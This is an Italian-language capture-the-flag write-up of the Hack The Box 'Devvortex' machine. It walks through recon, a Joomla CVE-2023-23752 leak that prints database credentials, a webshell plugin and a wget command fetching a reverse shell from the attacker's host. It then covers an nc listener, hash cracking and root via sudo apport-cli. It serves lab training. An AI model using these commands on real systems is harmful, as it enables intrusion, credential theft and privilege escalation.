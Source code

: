 # Devvortex

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.11.242
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Il risultato della scansione è il seguente:

```text
Nmap scan report for 10.10.11.242
Host is up (0.050s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=1/3%OT=22%CT=1%CU=38696%PV=Y%DS=2%DC=I%G=Y%TM=65953
OS:010%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)S
OS:EQ(SP=106%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=FE%GCD=1%ISR=107%TI=Z
OS:%CI=Z%II=I%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54
OS:DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%
OS:W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=
OS:Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y
OS:%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%R
OS:D=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)I
OS:E(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Aggiungo _devvortex.htb_ al file _/etc/hosts_ e passo alla fase successiva.

## Enumeration

Successivamente, visito la pagina http://devvortex.htb/:

<p align="center">
  <img src="/Immagini/Linux-Box/Devvortex/devvortex-1.png"/>
</p>

Provo ad utilizzare il comando _ffuf_ per eseguire una Directory Fuzzing:

```text
ffuf -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'http://devvortex.htb/FUZZ'
```

Ma il risultato ottenuto non è interessante.

Provo quindi con la ricerca di qualche sottodominio:

```text
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://FUZZ.devvortex.htb/
```

Trovo così il sottodominio _dev.devvortex.htb_ e lo aggiungo al file _/etc/hosts_.

Utilizzo di nuovo il comando _ffuf_:

```text
ffuf -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'http://dev.devvortex.htb/FUZZ'
```

In questo modo scopro la pagina _http://dev.devvortex.htb/robots.htb/_, la quale contiene il seguente testo:

```text
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# https://www.robotstxt.org/orig.html

User-agent: *
Disallow: /administrator/
Disallow: /api/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

Utilizzo il tool _joomscan_ per riconoscere la versione di _joomla_ utilizzata dalla web application:

<p align="center">
  <img src="/Immagini/Linux-Box/Devvortex/devvortex-2.png"/>
</p>

Tramite una rapida ricerca scopro [questa](https://github.com/Acceis/exploit-CVE-2023-23752) vulnerabilità e passo alla fase successiva.

## Exploitation

Eseguo l'exploit è ottengo il seguente risultato:

```text
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

Vado sulla pagina _http://dev.devvortex.htb/administrator/_ e accedo con le credenziali appena trovate.

Dopo varie ricerche mi imbatto in questo repository: _https://github.com/p0dalirius/Joomla-webshell-plugin_.

Seguo le istruzioni ed installo il plugin.

Ottegno un accesso davvero limitato alla shell. Per questo motivo eseguo i seguenti passaggi per ottenerne una migliore:

  - Scarico da _https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet_ il file per creare una remote-shell e lo modifico.
  - Metto in piedi un web server tramite python:
    - "python -m http.server 8090"
  - Scarico il file sulla macchina vittima:
   - "http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php?action=exec&cmd=wget -O /var/www/dev.devvortex.htb/s.php http://10.10.14.7:8090/shell.php"
  - Avvio un listener sulla porta 4444:
    - "nc -lvnp 4444"
  - Faccio partire la shell:
    - http://dev.devvortex.htb/s.php

**Ottengo una shell!**

<p align="center">
  <img src="/Immagini/Linux-Box/Devvortex/devvortex-3.png"/>
</p>

Provo quindi al database _mysql_ con le credenziali ottenute in precedenza:

```text
mysql -h localhost -u lewis -p
```

Così facendo ottengo l'hash della password e procedo utilizzando _johntheripper_:

<p align="center">
  <img src="/Immagini/Linux-Box/Devvortex/devvortex-4.png"/>
</p>

Accedo tramite ssh utilizzando la password appena ottenuta.

**Ottengo cosi il primo flag!**

## Privilege Escalation

Per prima cosa eseguo il seguente comando:

```text
sudo -l
```

<p align="center">
  <img src="/Immagini/Linux-Box/Devvortex/devvortex-5.png"/>
</p>

Da questo risultato sembra essere impiegata l'utility apport-cli. Eseguiamolo e vediamo cosa incontriamo. Dopo alcune ricerche scopro che è presente una vulnerabilità che mi permette di scalare i privilegi.

Eseguo il seguente comando:

```text
sudo apport-cli -c /var/crash/xxx.crash less
```

Premo la lettera V e attendo per qualce secondo. Eseguo quindi il comando _!/bin/bash/.

**Ottengo cosi il flag root!**

## Credits

  - [$$$->K0bR4<-$$$](https://medium.com/@marcovit87/hack-the-box-seasonal-devvortex-walkthrough-f6d268786805)
